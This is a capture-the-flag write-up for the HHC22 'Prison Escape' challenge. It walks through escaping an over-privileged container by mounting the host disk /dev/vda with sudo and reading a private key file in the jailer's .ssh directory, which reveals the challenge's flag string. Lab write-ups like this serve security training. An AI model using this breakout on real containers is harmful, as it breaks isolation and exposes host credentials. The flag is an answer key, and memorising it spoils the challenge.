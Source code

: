 ```yaml
---
sidebar_position: 2
---
```


# Prison Escape

## Objective

> Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?

## Helpful hints

```
Over-Permissioned
From: Bow Ninecandle
Terminal: Prison Escape
When users are over-privileged, they can often act as root. When containers have too many permissions, they can affect the host!
```

```
Mount Up and Ride
From: Bow Ninecandle
Terminal: Prison Escape
Were you able to mount up? If so, users' home/ directories can be a great place to look for secrets...
```

## Escaping prison

First thing, who am I

```bash
grinchum-land:~$ whoami
samways
```

Then find out user and group names and numeric ID's (UID or group ID) of the current user:

```bash
grinchum-land:~$ id
uid=1000(samways) gid=1000(users) groups=1000(users)
```

Nothing much of interest, user is the first created user on this system. Can this user do sudo?

```bash
grinchum-land:~$ sudo ls /
app      config    docker-mods  init       media  package  run   sys  var
bin      defaults  etc          keygen.sh  mnt    proc     sbin  tmp
command  dev       home         lib        opt    root     srv   usr
grinchum-land:~$ 
```

Yes it can! Finding out if this jail is mounted somewhere 

```bash
grinchum-land:~$ sudo fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
grinchum-land:~$ 
```

Let's mount /dev/vda and see what it contains!

```bash
grinchum-land:~$ mkdir /tmp/hackdrive
grinchum-land:~$ sudo mount /dev/vda /tmp/hackdrive/
grinchum-land:~$ ls /tmp/hackdrive/
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
grinchum-land:~$ ls /tmp/hackdrive/home/
jailer
```

Seems I hit things spot on. Going for the kill: 

```bash
grinchum-land:~$ cat /tmp/hackdrive/home/jailer/.ssh/jail.key.priv
               Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
```

## Handy resources

* https://serverfault.com/questions/803388/what-is-the-difference-between-dev-vda-and-dev-sda
* https://tbhaxor.com/container-breakout-part-1/